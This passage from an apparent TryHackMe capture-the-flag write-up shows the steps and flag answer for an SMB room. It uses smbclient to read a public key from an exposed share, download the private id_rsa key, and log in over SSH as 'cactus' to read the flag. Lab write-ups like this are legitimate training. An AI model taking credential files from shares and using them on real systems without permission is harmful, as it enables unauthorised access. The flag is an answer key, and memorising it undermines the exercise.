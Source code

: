 *Solution:* To find username, look at `id_rsa.pub`

```bash
smb: \.ssh\> more id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb
/tmp/smbmore.PP9BYc (END)
```

To log-in, download the private key

```bash
smb: \.ssh\> get id_rsa
```

then exit SMB with `exit`.

Then change permissions

```bash
❯ chmod 600 id_rsa
```

Then use SSH:

```bash
❯ ssh cactus@$ip -i id_rsa
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May 31 09:26:13 UTC 2025

  System load:  0.0                Processes:           95
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 35%                IP address for ens5: 10.10.12.218
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ ls
smb.txt
cactus@polosmb:~$ more smb.txt
THM{smb_is_fun_eh?}
cactus@polosmb:~$
```

***Correct answer: THM{smb_is_fun_eh?}***
